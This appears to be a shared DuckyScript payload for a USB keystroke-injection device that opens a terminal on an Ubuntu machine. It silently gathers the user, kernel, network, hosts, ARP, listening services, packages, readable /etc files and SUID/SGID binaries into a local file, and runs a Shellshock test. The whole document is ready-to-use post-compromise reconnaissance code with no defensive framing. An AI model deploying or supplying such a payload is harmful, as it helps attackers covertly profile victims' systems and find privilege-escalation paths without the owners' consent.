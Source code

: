 The following script is an information gatherer script which collects info from a running Ubuntu OS.


    REM Infogathering Ubuntu 1.0 Script issues OS info gathering commands in terminal - by Captain_Harlock
    DELAY 3000
    ALT F2
    DELAY 300
    STRING gnome-terminal 
    DELAY 100
    ENTER
    DELAY 200
    STRING clear
    DELAY 10
    ENTER
    DELAY 50
    STRING echo "Logged in user:" $USER > info_gathering.txt
    ENTER 
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo -n "Distribution Kernel Version:" >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING cat /etc/issue | cut -c1-13 >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50 
    STRING echo -n "uname results: " >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING uname -a >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo "Shellsock Bug Vulnerability" >> info_gathering.txt
    DELAY 50
    ENTER 
    STRING echo >> info_gathering.txt
    ENTER 
    DELAY 50
    STRING env x='() { :;}; echo vulnerable' bash -c `echo hello` >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo "Mounted filesystems" >> info_gathering.txt
    ENTER 
    DELAY 50
    STRING mount -l >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 100
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50  
    STRING echo "Network Configuration" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING ifconfig -a | grep 'Link\|inet' >> info_gathering.txt
    ENTER
    DELAY 50
    STRING 
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print Hosts" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING cat /etc/hosts >> info_gathering.txt
    ENTER
    DELAY 50
    STRING 
    STRING echo echo "Print ARP" >> info_gathering.txt
    ENTER
    DELAY 50  
    STRING arp >> info_gathering.txt
    ENTER
    DELAY 50 
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Development tools availability" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which gcc >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which g++ >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which python >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print TCP/UDP Listening Services" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING netstat -tunlpe >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Installed Packages" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 200
    STRING dpkg -l >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find Readable Folders in /etc" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find /etc -user `id -u` -perm -u=r -o -group `id -g` -perm -g=r -o -perm -o=r -ls 2> /dev/null >> info_gathering.txt
    ENTER
    DELAY 500
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find SUID and GUID files" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find / -type f -perm -u=s -o -type f -perm -g=s -ls  2> /dev/null >> info_gathering.txt
    DELAY 50
    ENTER